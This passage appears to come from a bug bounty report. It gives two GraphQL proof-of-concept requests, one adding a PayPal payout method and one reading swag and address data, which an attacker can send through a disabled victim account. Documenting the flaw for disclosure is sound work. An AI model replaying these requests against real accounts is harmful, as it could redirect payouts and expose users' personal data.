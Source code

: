 #### Adding a new payment method

`{"query":"mutation Create_paypal_preference_mutation($input_0:CreatePaypalPreferenceInput!,$first_1:Int!) {createPaypalPreference(input:$input_0) {clientMutationId,...F7,...F8}} fragment F0 on PayoutPreferenceInterface {_id,default,id,__typename} fragment F1 on CoinbasePayoutPreferenceType {email,id} fragment F2 on PaypalPayoutPreferenceType {email,id} fragment F3 on HackeronePayrollPayoutPreferenceType {email,id} fragment F4 on CurrencycloudBankTransferPayoutPreferenceType {name,id} fragment F5 on Node {id,__typename} fragment F6 on User {id,payout_preferences {__typename,...F0,...F1,...F2,...F3,...F4,...F5}} fragment F7 on CreatePaypalPreferencePayload {me {id,...F6}} fragment F8 on CreatePaypalPreferencePayload {was_successful,_errors3exXYb:errors(first:$first_1) {edges {node {field,message,id},cursor},pageInfo {hasNextPage,hasPreviousPage}}}","variables":{"input_0":{"paypal_email":"test@example.com","default_method":true,"clientMutationId":"0"},"first_1":100}}`

#### Swag settings

`{"query":"query Swag_settings($first_0:Int!) {me {id,...F3}} fragment F0 on User {id} fragment F1 on User {id,tshirt_size,...F0} fragment F2 on User {id,address {id,name,street,city,postal_code,state,country,phone_number},...F0} fragment F3 on User {id,tshirt_size,_swagnuR3p:swag(first:$first_0) {edges {node {id,created_at,report {_id,title,id},team {handle,name,id}},cursor},pageInfo {hasNextPage,hasPreviousPage}},address {name,street,city,postal_code,state,country,phone_number,id},...F1,...F2,...F0}","variables":{"first_0":500}}`

## Impact

The attacker gaining access to the disabled victim account can retrieve and modify account data by using GraphQL endpoint queries.

## Attachments
No attachments
